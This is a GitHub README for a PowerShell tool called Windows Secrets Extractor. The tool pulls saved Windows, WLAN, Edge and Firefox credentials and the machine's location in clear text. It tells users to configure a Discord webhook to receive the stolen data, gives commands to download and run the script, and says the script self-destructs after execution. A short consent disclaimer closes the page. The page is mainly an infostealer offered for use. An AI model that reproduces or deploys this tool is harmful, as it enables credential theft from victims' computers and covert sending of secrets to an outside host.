 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``
- (Optionnal) Python 3.X


### Before Usage
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``8`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
